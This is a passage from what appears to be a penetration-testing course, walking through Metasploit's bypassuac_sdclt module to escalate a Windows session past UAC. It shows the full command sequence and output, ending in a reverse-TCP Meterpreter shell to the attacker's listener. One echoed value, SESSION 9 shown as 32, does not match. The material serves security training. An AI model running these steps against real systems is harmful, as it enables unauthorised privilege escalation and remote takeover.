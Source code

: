 The search yields quite a few results. One very effective UAC bypass on modern Windows systems is *exploit/windows/local/bypassuac\_sdclt*, which targets the Microsoft binary **sdclt.exe**. This binary can be abused to [bypass UAC by spawning a process](https://threatpost.com/fileless-uac-bypass-uses-windows-backup-and-restore-utility/124579/) with integrity level *High*.

To use the module, we'll activate it and set the *SESSION* and *LHOST* options as shown in the following listing. Setting the *SESSION* for post-exploitation modules allows us to directly execute the exploit on the active session. Then, we can enter **run** to launch the module.

```
msf6 exploit(multi/handler) > use exploit/windows/local/bypassuac_sdclt
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp

msf6 exploit(windows/local/bypassuac_sdclt) > show options

Module options (exploit/windows/local/bypassuac_sdclt):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   PAYLOAD_NAME                   no        The filename to use for the payload binary (%RAND% by default).
   SESSION                        yes       The session to run this module on

Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port
...

msf6 exploit(windows/local/bypassuac_sdclt) > set SESSION 9
SESSION => 32
msf6 exploit(windows/local/bypassuac_sdclt) > set LHOST 192.168.119.4
LHOST => 192.168.119.4
msf6 exploit(windows/local/bypassuac_sdclt) > run

[*] Started reverse TCP handler on 192.168.119.4:4444 
[*] UAC is Enabled, checking level...
[+] Part of Administrators group! Continuing...
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing...
[!] This exploit requires manual cleanup of 'C:\Users\offsec\AppData\Local\Temp\KzjRPQbrhdj.exe!
[*] Please wait for session and cleanup....
[*] Sending stage (200774 bytes) to 192.168.50.223
[*] Meterpreter session 10 opened (192.168.119.4:4444 -> 192.168.50.223:49740) at 2022-08-04 09:03:54 -0400
[*] Registry Changes Removed

meterpreter >
```
